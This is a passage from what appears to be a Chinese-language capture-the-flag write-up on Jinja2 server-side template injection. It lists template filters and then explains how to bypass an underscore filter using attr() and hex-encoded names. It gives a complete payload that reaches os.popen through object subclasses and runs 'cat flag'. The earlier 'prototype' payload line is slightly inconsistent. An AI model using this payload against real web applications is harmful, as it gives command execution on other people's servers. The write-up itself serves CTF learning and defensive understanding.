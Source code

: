 | [`escape()`](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.escape)                 | [`last()`](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.last)               | [`rejectattr()`](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.rejectattr) | [`striptags()`](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.striptags)   | [`wordcount()`](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.wordcount) |
| [`filesizeformat()`](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.filesizeformat) | [`length()`](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.length)           | [`replace()`](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.replace)       | [`sum()`](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.sum)               | [`wordwrap()`](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.wordwrap)   |
| [`first()`](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.first)                   | [`list()`](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.list)               | [`reverse()`](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.reverse)       | [`title()`](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.title)           | [`xmlattr()`](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.xmlattr)     |

**_常用过滤器_**

```python
length() # 获取一个序列或者字典的长度并将其返回

int()：# 将值转换为int类型；

float()：# 将值转换为float类型；

lower()：# 将字符串转换为小写；

upper()：# 将字符串转换为大写；

reverse()：# 反转字符串；

replace(value,old,new)： # 将value中的old替换为new

list()：# 将变量转换为列表类型；

string()：# 将变量转换成字符串类型；

join()：# 将一个序列中的参数值拼接成字符串,通常有python内置的dict()配合使用

attr(): # 获取对象的属性
```

回到原题,本题我们利用到的过滤器为`attr()`.其用法为 `foo|attr("bar")`,结果等价于`foo.bar`

我们可以利用`request.args`向 attr 里面传入参数,

但这里再介绍一种编码绕过,

`__class__ => \x5f\x5fclass\x5f\x5f`

其中`_`的十六进制编码为`\x5f`

![image-20210926104739695](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20210926104739695.png)

构造 payload,拿到 flag

> paload 原型: ().\_\_class\_\_.\_\_base\_\_.\_\_subclasses\_\_()[132].\_\_init\_\_.\_\_globals\_\_\['open’\](‘cat flag').read()

`{{()|attr("\x5f\x5fclass\x5f\x5f")|attr("\x5f\x5fbase\x5f\x5f")|attr("\x5f\x5fsubclasses\x5f\x5f")()|attr("\x5f\x5fgetitem\x5f\x5f")(132)|attr("\x5f\x5finit\x5f\x5f")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")('popen')('cat flag')|attr("read")()}}`

![image-20210926111523826](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20210926111523826.png)

#### 拓展

